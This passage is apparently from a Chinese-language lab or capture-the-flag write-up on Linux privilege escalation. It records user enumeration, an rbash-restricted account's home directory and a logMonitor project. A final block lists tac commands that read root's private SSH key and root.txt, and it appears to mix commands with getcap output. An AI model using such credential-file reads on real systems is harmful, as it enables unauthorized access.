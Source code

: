 直观来看，加-t参数，有些命令没有，可能是环境变量的原因。

不加-t参数，虽然**命令都有**，但是显示起来，**回显没有颜色，不直观**。

其余的东西，因时间所限，以后再找一下相关资料。

---

## 提权前的信息搜集

有三个普通用户
```
steve:x:1000:1000:steve,,,:/home/steve:/bin/bash
monitor:x:1001:1001:User for editing source and monitoring logs,,,:/home/monitor:/bin/rbash
app-dev:x:1002:1002:User for managing app-dev,,,:/home/app-dev:/bin/bash
```
/home/monitor
```
ls -al
total 40
drwxr-x--- 5 root    monitor 4096 Jul 24 07:58 .
drwxr-xr-x 5 root    root    4096 May  3  2018 ..
drwxrwx--- 3 app-dev monitor 4096 May  3  2018 app-dev
lrwxrwxrwx 1 root    root       9 Jul 24 07:58 .bash_history -> /dev/null
-r--r----- 1 root    monitor   15 May  3  2018 .bash_login
-r--r----- 1 root    monitor   15 May  3  2018 .bash_logout
-r--r----- 1 root    monitor   15 May  3  2018 .bash_profile
-r--r----- 1 root    monitor 3598 May  3  2018 .bashrc
dr-xr-x--- 2 root    monitor 4096 May  3  2018 bin
-r--r----- 1 root    monitor   15 May  3  2018 .profile
dr-x------ 2 monitor monitor 4096 May  3  2018 .ssh
```
ls -iR
```
656302 app-dev
656301 bin

./app-dev:
656314 logMonitor
656315 logMonitor.bak
656309 logMonitor.c
656310 logMonitor.h
656312 logMonitor.h.gch
656313 logMonitor.o
656311 makefile
656303 v0.1

./app-dev/v0.1:
656316 logMonitor-0.1

./bin:
656305 ls
656307 most
656306 red
656308 rnano

```
```
getcap -r * 2>/dev/null
/usr/bin/tac -s @ /root/.ssh/id_rsa
/usr/bin/tac | /root/.ssh/id_rsa | /usr/bin/tac
tac /root/root.txt
```
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-23/9.PNG)
